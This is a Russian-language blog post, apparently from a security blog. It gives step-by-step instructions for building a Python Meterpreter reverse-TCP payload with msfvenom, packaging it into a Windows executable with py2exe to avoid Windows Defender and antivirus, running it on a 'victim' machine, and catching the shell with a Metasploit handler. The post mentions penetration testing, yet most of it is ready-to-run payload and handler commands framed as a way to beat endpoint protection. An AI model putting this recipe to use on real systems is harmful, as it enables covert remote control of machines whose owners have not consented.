 ```yaml
---
layout: post
categories: articles_rus
tags:
  - articles_rus
  - python
  - rev_shell
  - meterpreter
published: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение

Итак ситуация, есть возможность загрузить на тестируемую в рамках пентеста или другой легимитивной деятельности Windows машину файл и даже возможно исполнить его. Если мы говорим об последней, десятой версиии ОС то мы столкнёмся с местнымм его защитником Windows Defender, так же велика вероятность наткнуться на антивирус. В такой ситуации очень удобный и расширяемый meterpreter не сможет работать, какая есть альтернатива? 

## Python
{:id="python"}

Вот и ответ, использование Python в связке с metasploit и msfvenom позволяет нам получить достойную альтернативу классическому meterpreter с большинством его удобных функций. Правда некоторыми придется пожертвовать, не будет возможности использовать такие команды как getsystem и нельзя будет мигрировать в процесс.


# Начинаем

Общая схема такова: мы генерируем python код с помощью msfvenom, "скармливаем" его py2exe, полученый бинарник запускаем на машине жертвы и ловим сессию.
<br><br>
Для начала установим py2exe под 3.4 версию так как всё что выше не поддерживается.
~~~
pip install py2exe
~~~
Или, если вы как и я любите обновляться
~~~
python -3.4 –m pip install py2exe
~~~

<br><br>

Далее создаём .py код:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~

К коду необходимо добавить import getpass который msfvenom по умолчанию почему-то не делает.

<br><br>


Делаем exe:
<br>
~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


И запускаем его на машине жертвы предварительно запустив handler:<br>
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

И получаем коммандную оболочку:

![Python_shell]({{ site.baseurl }}/assets/img/posts_rus/python_shell.jpg){:class="img"}

# Заключение
{:id="end"}

Простой и эффективный способ борьбы с Windows Defender если не хочется терять удобный и привычный функционал meterpreter в угоду более нативным решениям, как например ssh или telnet. 
<br><br>

